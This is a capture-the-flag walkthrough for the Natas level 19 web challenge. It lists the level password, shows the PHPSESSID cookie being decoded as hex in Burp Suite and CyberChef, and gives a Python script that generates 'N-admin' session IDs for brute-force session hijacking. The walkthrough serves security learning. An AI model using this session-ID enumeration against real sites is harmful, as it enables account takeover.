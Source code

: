 Navigating to the webpage and using the password we found from the previous level

username:```natas19```         password:```8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c9cd0bae-70cf-4251-8cda-fcbe87135e5d)

So, this level uses the same code as the previous level, the  difference is just that in this level session IDs are no longer sequential

Lets use the previous creds we used in the previous level

username:```BlackAnon```       password:```groceriesandfloatingberries```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b3ef551b-46d2-428c-9a71-fcf9a1f5d47f)

Capturing the request on burpsuite;

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6460ffb1-8fb5-44a6-9a37-c71407238b27)

Sending it over to repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cdca4458-14da-444d-a169-c00451a8114f)

As you can see the value for ```PHPSESSID``` is different unlike the one we saw in the previous level.

Lets try to decode this ```PHPSESSID``` using [cyberchef](https://gchq.github.io/CyberChef/)

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/734b4f63-2e5a-4930-8c58-b22464472fe4)

If you recall from the source code of the previous level we saw that ```$maxid = 640```, so one thing we'll try is to generate new ```PHPSESSID```. To do this we'll be using a python script

```python
def number_to_blackanon_hex(number):
    if not 1 <= number <= 640:
        raise ValueError("Number must be between 1 and 640.")

    # Append "BlackAnon" to the number
    blackanon_string = str(number) + "-admin"

    # Convert the string to hexadecimal representation
    hex_representation = blackanon_string.encode().hex()

    return hex_representation

# Open the file in write mode
with open("phpsessid.txt", "w") as file:
    # Write the output for numbers from 1 to 640 to the file
    for number in range(1, 641):
        hex_result = number_to_blackanon_hex(number)
        line = f"{hex_result}\n"
        file.write(line)

print("Output has been written to phpsessid.txt")
```
The script takes numbers from 1 to 640, appends "-admin" to each number, converts them to hexadecimal representation, and writes the results to a file named "phpsessid.txt."
